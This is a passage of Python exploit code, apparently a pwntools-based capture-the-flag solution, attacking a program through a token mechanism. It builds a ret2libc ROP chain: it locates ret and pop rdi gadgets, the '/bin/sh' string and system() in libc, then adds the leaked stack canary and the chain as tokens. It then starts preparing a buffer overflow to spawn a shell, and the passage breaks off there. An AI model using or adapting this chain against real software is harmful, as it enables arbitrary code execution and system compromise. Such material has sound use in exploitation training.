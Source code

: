 ```python

# ============================================================================
# STAGE 2: BUILD ROP CHAIN AS TOKENS
# ============================================================================
log.info("=" * 70)
log.info("STAGE 2: BUILDING ROP CHAIN")
log.info("=" * 70)

# Find ROP gadgets in libc
log.info("Finding ROP gadgets...")
rop = ROP(libc)
ret_gadget = rop.find_gadget(['ret'])[0]
pop_rdi_gadget = rop.find_gadget(['pop rdi', 'ret'])[0]
binsh_addr = next(libc.search(b"/bin/sh\x00"))
system_addr = libc.symbols['system']

log.success(f"ret gadget:    {hex(ret_gadget)}")
log.success(f"pop rdi; ret:  {hex(pop_rdi_gadget)}")
log.success(f"/bin/sh:       {hex(binsh_addr)}")
log.success(f"system():      {hex(system_addr)}")

# Add ROP chain as tokens
log.info("Adding ROP chain tokens...")

# Token 107: Canary (to restore during overflow)
add_token(p64(canary))
log.info(f"  Token {n_tokens-1}: Canary")

# Token 108: ret (stack alignment)
add_token(p64(ret_gadget))
log.info(f"  Token {n_tokens-1}: ret gadget")

# Token 109: pop rdi; ret
add_token(p64(pop_rdi_gadget))
log.info(f"  Token {n_tokens-1}: pop rdi; ret")

# Token 110: "/bin/sh"
add_token(p64(binsh_addr))
log.info(f"  Token {n_tokens-1}: /bin/sh address")

# Token 111: system()
add_token(p64(system_addr))
log.info(f"  Token {n_tokens-1}: system() address")

log.success(f"Total tokens: {n_tokens}")

# ============================================================================
# STAGE 3: TRIGGER BUFFER OVERFLOW
# ============================================================================
log.info("=" * 70)
log.info("STAGE 3: TRIGGERING OVERFLOW")
log.info("=" * 70)

# CRITICAL: Account for combinator state
# We've already sent 25 bytes during leak
# Now we need to account for padding + saved RBP
log.info(f"Combinator before adjustment: {combinator}")
combinator += 1 + 33  # +1 for saved RBP, +33 for padding
log.info(f"Combinator after adjustment: {combinator}")

# Build overflow payload
log.info("Building overflow payload...")

```